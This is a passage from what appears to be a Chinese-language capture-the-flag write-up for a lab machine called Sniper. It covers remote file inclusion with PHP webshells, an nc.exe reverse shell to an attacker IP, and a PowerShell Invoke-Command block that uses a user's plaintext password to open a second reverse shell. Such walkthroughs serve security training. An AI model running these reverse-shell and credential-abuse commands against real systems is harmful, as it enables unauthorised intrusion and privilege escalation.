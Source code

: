 在 win 机器下发现已经可以访问

![Xnip2020-03-09_01-08-44](https://tva1.sinaimg.cn/large/00831rSTgy1gco828tdbdj30pw0a8gm0.jpg)

### 上传 webshell

推荐几个好用的 webshell

[WhiteWinterWolf's PHP web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

[Alfa team shell](http://getalfa.rf.gd/?i=2)

下载后放进 smb 文件夹下，尝试 RFI 成功

![Xnip2020-03-09_01-16-16](https://tva1.sinaimg.cn/large/00831rSTgy1gco89059l7j31c00u0nog.jpg)

### 反弹 shell

只靠 webshell 无法反弹 shell，所以尝试上传一个 nc.exe。但在根目录下没有权限，所以需要先建一个 Temp 文件夹，成功上传 nc.exe 并反弹 shell

![image-20200310160117025](https://tva1.sinaimg.cn/large/00831rSTgy1gcow44wycsj328e0psjww.jpg)

`.\nc.exe 10.10.15.11 4444 -e powershell.exe`

![Xnip2020-03-09_01-44-20](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6ffeoh3j31pe0san77.jpg)

获得了普通用户的权限，之后在其中搜寻信息，在下面文件夹中发现了 db.php，里面有 db user 的密码。

![Xnip2020-03-09_01-44-55](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6g8s5hij30u70u0nbr.jpg)

同时我们还发现靶机中还存在一个用户 Chris，我们需要根据 Chris 的用户凭证实现越权，获取其 shell

### 越权获取 shell

通过下列命令将 Chris 的凭证添加进 PSCredential，之后使用 Invoke-Command 远程执行 nc 反弹 shell

```shell
$secpasswd = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('sniper\chris',$secpasswd)
Invoke-Command -ComputerName sniper -Credential $cred -ScriptBlock {C:\Temp\nc.exe 10.10.15.11 4445 -e powershell.exe}
```

但这是出现 nc 的执行权限问题，有两种方法解决

![Xnip2020-03-10_17-46-10](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6symd9yj31e40fkjz6.jpg)

#### 方法一

修改 nc.exe 的权限，允许任意用户直接运行

首先查看 nc.exe 原本的权限，之后修改权限

![image-20200310174933649](https://tva1.sinaimg.cn/large/00831rSTgy1gcp6o8jvc5j313e0d6dh4.jpg)

再次查看权限，发现权限修改成功
